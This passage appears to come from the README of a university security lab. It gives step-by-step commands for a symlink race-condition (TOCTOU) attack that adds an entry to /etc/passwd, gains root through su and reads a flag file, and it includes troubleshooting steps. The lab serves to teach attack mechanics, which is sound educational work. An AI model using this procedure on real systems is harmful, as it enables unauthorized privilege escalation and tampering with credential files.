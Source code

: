 1. Use the `g++` compiler to compile and build the executable program.
    ```bash
    $ g++ attack_process.cpp -o attack_process
    ```

#### Launch the attack!

We now run the two programs created above. We first run the attack program, `attack_process`, in the background. Next we will start the target program, `target_process.sh`.

1. Start the attack process. Change the name of the attack file to `/tmp/yournetid.txt`. Use the `&` to run this process in the background.
    ```bash
        $ ./attack_process /tmp/yournetid.txt &
    ```
2. Validate that this is running correctly by list the file several times and notice that it is being linked and unlinked over and over again from `/dev/null` (writable) to `/etc/passwd` (not writable).
    ```bash
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
        $ ls -l /tmp/yournetid.txt
    ```
3. Run the target process.
    ```bash
    $ ./target_process.sh
    ```
4. Let it run until you see the message: "The password file has changed. Stopping...". Note: this may take a minute or two. If your program does stop after a few minutes, something may have gone wrong, see the section below for troubleshooting.
5. Verify that your entry was added to the `/etc/passwd` file.
    ```bash
    $ tail /etc/passwd
    ```
6. Now check to see if you can gain root privileges. Use the `su` (substitute user) to login to the newly created account. Change `yournetid_root` to use your `netid`. Enter the password that you created with the `mkpasswd` command above.
    ```bash
    su yournetid_root
    ```
7. Cat the file `/root/flag.txt` and add the contents to the `README.md` for this repository.
8. In the `README.md` explain in your own words how this attack works.

# Troubleshooting

If you didn't gain root access. You may need to restart this process.
1. Stop the `./target_process.sh` by typing `Ctrl-C`.
2. Stop the `./attack_process` by entering:
    ```bash
    $ jobs
    $ kill %jobnumber
    ```
3. Delete the `/tmp/yournetid.txt` file using the unlink command.
    ```bash
    $ unlink /tmp/yournetid.txt
    ```
4. Start the Launch the attack! section above again.
